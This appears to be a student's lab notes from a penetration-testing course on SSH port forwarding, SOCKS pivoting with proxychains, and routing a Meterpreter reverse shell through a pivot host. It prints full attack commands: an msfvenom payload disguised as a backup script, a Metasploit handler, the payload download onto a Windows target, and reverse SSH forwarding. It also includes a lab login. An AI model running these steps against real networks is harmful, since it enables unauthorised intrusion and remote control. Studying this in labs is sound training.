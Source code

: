 # Dynamic Port Forwarding with SSH and SOCKS Tunneling
## Port Forwarding in Context
- `Port forwarding` is a technique that allows us to redirect a communication request from one port to another.
- different application layer protocols such as SSH or even SOCKS (non-application layer) can be used to encapsulate the forwarded traffic. 
	- This can be effective in bypassing firewalls and using existing services on your compromised host to pivot to other networks.

## SSH Local Port Forwarding

![[SSH Local Port Forwarding.png]]
- We will use the below command to forward our local port (1234) over SSH to the Ubuntu server.
```shell-session
AnuragTaparia@htb[/htb]$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```
- The `-L` command tells the SSH client to request the SSH server to forward all the data we send via the port `1234` to `localhost:3306` on the Ubuntu server. By doing this, we should be able to access the MySQL service locally on port 1234.

## Setting up to Pivot
- Now, if you type `ifconfig` on the Ubuntu host, you will find that this server has multiple NICs:
	- One connected to our attack host (`ens192`)
	- One communicating to other hosts within a different network (`ens224`)
	- The loopback interface (`lo`).

![[Setting up to Pivot.png]]
- We can perform `dynamic port forwarding` and `pivot` our network packets via the Ubuntu server by starting a `SOCKS listener` on our `local host` (personal attack host or Pwnbox) and then configure SSH to forward that traffic via SSH to the network (172.16.5.0/23) after connecting to the target host. 
- This is called `SSH tunneling` over `SOCKS proxy`. SOCKS stands for `Socket Secure`, a protocol that helps communicate with servers where you have firewall restrictions in place.
- In the case of SOCKS, the initial traffic is generated by a SOCKS client, which connects to the SOCKS server controlled by the user who wants to access a service on the client-side. Once the connection is established, network traffic can be routed through the SOCKS server on behalf of the connected client.
- One more benefit of using SOCKS proxy for pivoting and forwarding data is that SOCKS proxies can pivot via creating a route to an external server from `NAT networks`.
#### Enabling Dynamic Port Forwarding with SSH

```shell-session
AnuragTaparia@htb[/htb]$ ssh -D 9050 ubuntu@10.129.202.64
```
- The `-D` argument requests the SSH server to enable dynamic port forwarding.
-  Once we have this enabled, we will require a tool that can route any tool's packets over the port `9050`. We can do this using the tool `proxychains`, which is capable of redirecting TCP connections through TOR, SOCKS, and HTTP/HTTPS proxy servers and also allows us to chain multiple proxy servers together.
- To inform proxychains that we must use port 9050, we must modify the proxychains configuration file located at `/etc/proxychains.conf`. We can add `socks4 127.0.0.1 9050` to the last line if it is not already there.
- Now when you start Nmap with proxychains using the below command, it will route all the packets of Nmap to the local port 9050, where our SSH client is listening, which will forward all the packets over SSH to the 172.16.5.0/23 network.
#### Using Nmap with Proxychains

```shell-session
proxychains nmap -v -sn 172.16.5.1-200
proxychains nmap -sn 172.16.5.0/24
```
- This part of packing all your Nmap data using proxychains and forwarding it to a remote server is called `SOCKS tunneling`.
- One more **important note** to remember here is that we can only perform a `full TCP connect scan` over proxychains.
- We also need to make sure we are aware of the fact that `host-alive` checks may not work against Windows targets because the Windows Defender firewall blocks ICMP requests (traditional pings) by default.
#### Enumerating the Windows Target through Proxychains

```shell-session
proxychains nmap -v -Pn -sT 172.16.5.19
```

## Using Metasploit with Proxychains

```shell-session
proxychains msfconsole
```

#### Using xfreerdp with Proxychains

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```


# Remote/Reverse Port Forwarding with SSH

- As can be seen in the image below, in our previous case, we could pivot into the Windows host via the Ubuntu server.
 
![[Remote or Reverse Port Forwarding with SSH.png]]
- But what happens if we try to gain a reverse shell? 
	- The `outgoing connection` for the Windows host is only limited to the `172.16.5.0/23` network. This is because the Windows host does not have any direct connection with the network the attack host is on. If we start a Metasploit listener on our attack host and try to get a reverse shell, we won't be able to get a direct connection here because the Windows server doesn't know how to route traffic leaving its network (172.16.5.0/23) to reach the 10.129.x.x (the Academy Lab network).

- We have to find a pivot host, which is a common connection point between our attack host and the Windows server.  In our case, our pivot host would be the Ubuntu server since it can connect to both: `our attack host` and `the Windows target`.

- To gain a `Meterpreter shell` on Windows, we will create a Meterpreter HTTPS payload using `msfvenom`, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (`172.16.5.129`). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.

```shell-session
AnuragTaparia@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

#### Configuring & Starting the multi/handler

```shell-session
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

- Once our payload is created and we have our listener configured & running, we can copy the - payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.
#### Transferring Payload to Pivot Host

```shell-session
AnuragTaparia@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

- After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.
#### Starting Python3 Webserver on Pivot Host

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

#### Downloading Payload from Windows Target

```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

- Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. 
- We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.
#### Using SSH -R

```shell-session
AnuragTaparia@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
- After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.
- If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.
- Our Meterpreter session should list that our incoming connection is from a local host itself (`127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.

# Meterpreter Tunneling & Port Forwarding
